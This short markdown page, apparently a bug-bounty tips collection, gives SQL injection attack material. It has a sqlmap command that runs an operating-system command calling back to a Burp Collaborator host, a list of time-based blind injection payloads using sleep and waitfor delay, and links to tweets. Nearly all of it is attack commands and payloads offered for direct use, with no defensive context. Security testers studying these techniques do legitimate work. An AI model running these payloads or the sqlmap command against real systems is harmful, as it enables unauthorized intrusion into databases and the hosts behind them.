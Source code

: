 <h1 align="center">SQLI --> SQL Injection</h1>
<h3>1</h3>
<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img align="center" width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```

<h3>2</h3>
<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

Payloads
```
   ')) or sleep(5)='
   ;waitfor delay '0:0:5'--
   );waitfor delay '0:0:5'--
   ';waitfor delay '0:0:5'--
   ";waitfor delay '0:0:5'--
   ');waitfor delay '0:0:5'--
   ");waitfor delay '0:0:5'--
   ));waitfor delay '0:0:5'--
```

<h3>Best of sqlmap Cheat Sheet</h3> https://twitter.com/Shubham_pen/status/1508032330820030465
